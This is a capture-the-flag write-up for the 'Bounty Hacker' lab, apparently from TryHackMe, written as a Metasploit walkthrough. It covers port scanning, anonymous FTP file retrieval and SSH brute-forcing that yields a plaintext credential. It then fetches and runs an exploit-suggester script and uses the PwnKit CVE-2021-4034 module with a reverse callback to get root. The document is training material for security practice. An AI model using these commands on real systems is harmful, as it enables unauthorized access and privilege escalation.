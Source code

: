 ```yaml
---
cover: ../../.gitbook/assets/e27.jpeg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bounty Hacker

### Enumeration

For this lab, I'm gonna use MSFconsole.

```bash
msf6> workspace -a bounty-hacker
msf6> setg rhosts 10.10.111.7
msf6> db_nmap -p- -T4 10.10.111.7
msf6> db_nmap -p 21,22,80 -sV -O 10.10.111.7
```

There are 3 services : `HTTP` `FTP` `SSH`

```bash
msf6> use auxiliary/scanner/ftp/anonymous
msf6> run
```

You have anonymous access to the FTP service

```bash
kali@attack> ftp -a 10.10.111.7
ftp> passive
ftp> get locks.txt
ftp> get task.txt
ftp> bye
```

### Exploitation

The file `locks.txt` seems to be a wordlist and the `task.txt` mentions a user named **lin**. We can try to brute-force SSH authentication with this wordlist.

```bash
msf6> use auxialiary/scanner/ssh/ssh_login
msf6> set username lin
msf6> set pass_file locks.txt
msf6> set stop_on_success true
msf6> set verbose true
msf6> run
```

After few enumeration, the modules highlights the credentials `lin:RedDr4gonSynd1cat3` and it opens a new shell session. Try to upgrade it to meterpreter.

```bash
msf6> sessions -u 1
```

### Post-exploitation

Great ! We get a meterpreter sessions as **lin**. We can proceed to the post-exploitation phase. I will use [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester) for this step.

```bash
msf6> wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
msf6> sessions 2
meterpreter> cd /tmp
meterpreter> upload les.sh
meterpreter> chmod 777 les.sh
meterpreter> shell

/bin/bash -i
lin@target> cd /tmp
lin@target> ./les.sh
```

The first suggestion is the [PwnKit](https://github.com/ly4k/PwnKit) (CVE-2021-4034) exploit.

```bash
msf6> search cve-2021-4034
msf6> use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
msf6> set session 2
msf6> set lhost 10.8.15.147
msf6> run
```

And it opens a **root** meterpreter session, you get the `root.txt` flag !
